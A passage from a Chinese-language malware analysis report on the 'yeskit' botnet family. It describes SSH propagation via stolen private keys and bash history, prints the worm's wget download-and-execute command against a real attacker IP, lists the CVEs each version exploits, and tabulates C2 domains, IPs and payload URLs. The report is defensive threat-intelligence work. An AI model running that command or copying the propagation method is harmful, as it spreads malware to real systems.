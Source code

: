 同时，由该解密配置文件可以推测，样本应该是由黑产团队运营的。样本运营方默认提供两个漏洞，而购买方可以自行添加新的漏洞信息。



##### 4.2 SSH传播

在ssh传播中，首先样本会判断受害机中是否存在历史链接的ssh私钥文件(`/root/.ssh/id_rsa`)，如果存在，说明历史链接的公钥存在于新受害机器上，攻击者可以免密登录到新受害机器。同时搜索受害机的历史`ssh` 命令(bash_history)，免密登录后发送shell命令，执行并下载`download.sh`脚本，完成样本的传播

```shell
wget -t 1 http://209.141.46.211:[fileprot]/download.sh;chmod +x download.sh;./download.sh||rm -f download.sh
```

如果ssh连接失败，则使用cve的方式传播样本





#### 5. 版本迭代

目前家族可以分成4代，分类的依据是函数名称和样本功能的变化

- v1版本主要在函数命名上与v2-v4有明显差异。差异主要体现在攻击函数上，v1版本的攻击函数使用`xxmode`和`Ares_xxx`的命名方式表示攻击函数，其中`ares`为开源的后门程序

<img src="C:\Users\wzzhang\AppData\Roaming\Typora\typora-user-images\image-20220825093939720.png" alt="image-20220825093939720" style="zoom:50%;" />

和下图（v2版本函数名）对于可以明显发现差异，攻击者使用了名为`chaos`的远控工具。通过逆向对比发现，v1和v2-v4的攻击函数具备代码相似性，只在命名上存在差异

<img src="C:\Users\wzzhang\AppData\Roaming\Typora\typora-user-images\image-20220825094544812.png" alt="image-20220825094544812" style="zoom:50%;" />

- v3 v4在v2函数命名的基础上，增加了传播模块。v3增加了ssh传播模块，v4版本在v3版本上增加了cve传播模块（详见第4章）。

每个版本监测到的漏洞利用情况如下表，其中cve.txt一直保持更新。

| yeskit版本         | **样本传播方式**                                             | **传播源传播行为**               |
| ------------------ | ------------------------------------------------------------ | -------------------------------- |
| v1                 | /                                                            | CVE-2022-1388、   CVE-2022-22965 |
| v2                 |                                                              |                                  |
| v3(quanquandd.top) | CVE-2022-30525和CVE-2017-17215；SSH传播                      | /                                |
| v3(linuxddos.net)  | CVE-2022-30525和CVE-2017-17215，使用了开发者的示例文件，无传播作用；SSH传播 | /                                |
| v4(ai.nqb001.com)  | cve.txt目前包含：CVE-2022-30525  CVE-2021-35327、CVE-2017-17215  CVE-2019-9082；SSH传播 | CVE-2022-22965                   |

| **序号** | **活跃主控**                                                 | **传播源**                                                 | **yeskit**版本 | **推测传播yeskit时间** |
| -------- | ------------------------------------------------------------ | ---------------------------------------------------------- | -------------- | ---------------------- |
| 1        | botent.online(206.189.107.191)                               | 154.12.42.230/l                                            | v1             | 4.18开始传播           |
| 2        | myjianlibao.xyz(20.247.3.55)、myjiaduobao.xyz(20.187.127.241) | 20.239.193.47/kele/linux_mips64_softfloat、20.187.67.224/6 | v1             | 4.26至5月中旬          |
| 3        | botnet.ddoswow.site(209.141.52.195)                          | 209.141.52.195/linux_386                                   | v1             | 5.4日前后              |
| 4        | dark1998.f3322.org(156.96.156.105)                           | 156.251.28.30:8888/amd64                                   | v1             | 5.6日前后              |
| 5        | neverwinwlaq.xyz(20.187.86.47)                               | 20.187.86.47/dadda                                         | v2             | 5.11至5.20             |
| 6        | quanquandd.top(91.208.236.16)                                | 82.157.11.15:808/linux_amd64                               | v3             | 5.25日前后             |
| 7        | linuxddos.net(103.59.113.38)                                 | 35.87.242.161/linux_mips                                   | v3             | 5.25日前后             |
| 8        | ai.nqb001.com(137.175.17.80)                                 | 209.141.46.211/a/l7812_mips                                | v4             | 5.25日至今             |
